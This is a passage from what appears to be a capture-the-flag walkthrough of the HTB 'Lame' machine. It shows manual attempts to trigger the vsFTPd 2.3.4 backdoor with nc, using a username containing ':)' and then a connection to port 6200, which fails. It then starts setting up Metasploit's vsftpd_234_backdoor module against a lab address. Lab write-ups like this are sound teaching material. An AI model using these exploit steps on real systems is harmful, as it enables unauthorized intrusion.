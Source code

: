 
    root@kali# nc 10.10.10.3 21
    220 (vsFTPd 2.3.4)
    USER 0xdf:)
    331 Please specify the password.
    PASS 0xdf-not-a-password 



If it worked, I should be able to connect to a listener on Lame port
6200. But it doesn't work.



    root@kali# nc 10.10.10.3 6200
    Ncat: TIMEOUT.



### With Metasploit

I understand this exploit enough to know that it will be no different in
Metasploit, but I can demonstrate here. I'll fire up `msfconsole`, and
search for it:



    msf5 > search vsftpd

    Matching Modules
    ================

       Name                                  Disclosure Date  Rank       Check  Description
       ----                                  ---------------  ----       -----  -----------
       exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution



I'll use it, and set the target:



    msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS                   yes       The target address range or CIDR identifier
       RPORT   21               yes       The target port (TCP)


    Exploit target:

       Id  Name
       --  ----
       0   Automatic


    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
    rhosts => 10.10.10.3
